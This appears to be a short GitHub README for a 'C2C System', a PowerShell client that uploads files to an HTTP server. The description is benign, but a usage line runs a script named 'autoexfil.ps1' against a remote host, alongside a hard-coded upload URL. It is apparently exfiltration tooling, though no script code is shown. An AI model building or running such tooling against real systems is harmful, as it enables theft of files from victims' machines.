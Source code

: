 # C2C System

This project allows users to upload files from a client to a server using HTTP requests. It demonstrates a basic file upload mechanism using PowerShell and a web server.

## Overview

1. Simple HTTP 
```The system consists of a **Client** that sends files and a **Server** that receives and processes these files. Below are the details of the client-side script and server-side setup.```

## Server Setup

The server listens for incoming file uploads. It processes the file and stores it in a designated folder. You can configure the server to handle various file types, validate inputs, and even respond with confirmation messages after successful uploads.

### Server Image
![Server](media/server.png)

**Server URL**: `http://10.113.107.107:7070/upload`

## Client Setup

The client is a PowerShell script that allows users to select a file to upload to the server. It sends the file via a multipart form-data POST request. If the upload is successful, it will output a confirmation message.

### Client Image
![Client](media/client.png)

### Example Usage

```powershell
autoexfil.ps1 <rhost>
